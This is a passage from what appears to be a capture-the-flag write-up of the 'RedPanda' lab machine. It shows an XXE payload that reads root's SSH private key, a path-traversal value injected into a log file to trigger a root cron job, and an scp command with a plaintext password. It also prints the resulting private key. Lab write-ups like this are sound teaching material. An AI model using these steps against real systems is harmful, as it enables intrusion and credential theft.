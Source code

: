 #### Collect SSH Key

With the ability to read files as root, I could just read the flag, but in
interest of getting a shell, I’ll try to read root’s SSH key. I’ll update the
XXE to target the default key name:

    
    
    ...[snip]...
    <!DOCTYPE root [
    <!ENTITY foo SYSTEM 'file:///root/.ssh/id_rsa'>]>
    ...[snip]...
    

Copy that file up to RedPanda:

    
    
    oxdf@hacky$ sshpass -p RedPandazRule scp 0xdf_creds.xml woodenk@10.10.11.170:/tmp/
    

And inject another log:

    
    
    woodenk@redpanda:/opt/panda_search$ echo "412||ip||ua||/../../../../../../tmp/0xdf.jpg" >> redpanda.log
    

I’ll make sure the JPG is still in place and hasn’t been cleaned up as well.

When the cron next runs, the key is there:

    
    
    woodenk@redpanda:/opt/panda_search$ cat /tmp/0xdf_creds.xml 
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE root>
    <credits>
      <author>damian</author>
      <image>
        <uri>../img/angy.jpg</uri>
        <views>1</views>
        <root>-----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
    QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
    ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
    AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
    RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
    -----END OPENSSH PRIVATE KEY-----</root>
      </image>
      <image>
        <uri>../img/shy.jpg</uri>
        <views>0</views>
      </image>
      <image>
        <uri>../img/crafty.jpg</uri>
        <views>0</views>
      </image>
      <image>
        <uri>../img/peter.jpg</uri>
        <views>0</views>
      </image>
      <totalviews>1</totalviews>
    </credits>
    